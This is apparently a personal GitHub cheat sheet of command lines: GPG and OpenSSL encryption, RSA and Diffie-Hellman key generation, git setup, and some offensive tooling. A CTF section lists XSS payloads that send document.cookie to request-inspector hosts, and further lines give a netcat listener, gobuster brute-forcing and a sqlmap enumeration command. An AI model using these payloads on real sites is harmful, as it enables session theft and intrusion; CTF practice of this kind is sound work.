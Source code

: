 # command-lines

## Encription

### GPG

`gpg --armor --symmetric --cipher-algo CIPHER message.txt`

`gpg --output original_message.txt --decrypt message.gpg`

### OpenSSL

`openssl aes-256-cbc -e -in message.txt -out encrypted_message`

`openssl aes-256-cbc -d -in encrypted_message -out original_message.txt`

`openssl aes-256-cbc -pbkdf2 -iter 10000 -e -in message.txt -out encrypted_message`

`openssl aes-256-cbc -pbkdf2 -iter 10000 -d -in encrypted_message -out original_message.txt`

### RSA 

`openssl genrsa -out private-key.pem 2048`

`openssl rsa -in private-key.pem -pubout -out public-key.pem`

`openssl rsa -in private-key.pem -text -noout`

`openssl pkeyutl -encrypt -in plaintext.txt -out ciphertext -inkey public-key.pem -pubin`

`openssl pkeyutl -decrypt -in ciphertext -inkey private-key.pem -out decrypted.txt`

### Deffie Hellman

`openssl dhparam -out dhparams.pem 2048`

`openssl dhparam -in dhparams.pem -text -noout`

### Certificate signing

`openssl req -new -nodes -newkey rsa:4096 -keyout key.pem -out cert.csr`

## Gobuster

gobuster dir -w /usr/share/wordlists/rockyou.txt -u "http://localhost:8000/"

## nmap

nc -nlvp 1234

## Git

`git remote set-url origin git@github.com:sbahbouhi/command-lines.git`

`git init`

`git commit -m "xxxx"`

`git branch -M main`

`git remote add origin git@github.com:sbahbouhi/xxxx.git`

`git push -u origin main`

## CTF

### xss payloads

<script>window.location=`https://01hh4df1c5qk1fjks5n8spq9zn00-e4e6c9cb80653f2a86a1.requestinspector.com/${document.cookie}`</script>

<img%20src=x%20onerror=window.location=`https://01hhfejwqqkzvvfbv222c4phhm00-51a6d20d3e3a4700ffaa.requestinspector.com` />

`fetch("https://01hh4df1c5qk1fjks5n8spq9zn00-e4e6c9cb80653f2a86a1.requestinspector.com?"+encodeURIComponent(document.cookie));`

`VueJS {{7*7}}`

### sqlmap

`sqlmap -u "http://localhost:8000/index.php?id=1" -dbs`




